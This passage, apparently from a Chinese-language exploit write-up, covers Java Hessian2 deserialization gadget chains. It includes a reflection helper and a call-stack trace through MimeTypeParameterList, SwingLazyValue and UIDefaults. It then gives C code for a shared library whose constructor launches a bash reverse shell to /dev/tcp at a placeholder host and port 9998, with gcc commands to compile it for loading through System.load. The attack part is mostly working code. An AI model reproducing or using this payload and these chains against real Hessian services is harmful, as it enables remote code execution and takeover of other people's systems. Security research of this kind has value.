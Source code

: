 ```java

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

其他链子没变(感兴趣的师傅们可以细跟一下)

```java
invoke:275, MethodUtil (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
toString:253, MimeTypeParameterList (javax.activation)
    
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```



## MimeTypeParameterList+ProxyLazyValue+DumpBytecode.dumpBytecode+System.load（第三条链子）

先普及一点知识

```java
#include <stdlib.h>
#include <stdio.h>

void __attribute__ ((__constructor__))  aasdnqwgasdela1 (){

    system("echo '/bin/bash -i >& /dev/tcp/xxxxxxxx/9998 0>&1' > /tmp/1");
    system("/bin/bash /tmp/1");
}
```

然后System.load 执行就行了

gcc -c a.c -o a && gcc a --share -o a.so

```java
好神奇，之前在学jni的时候用过load，但只是把dllc中的代码加载进来，没想到so可以直接执行，动态链接库。
```
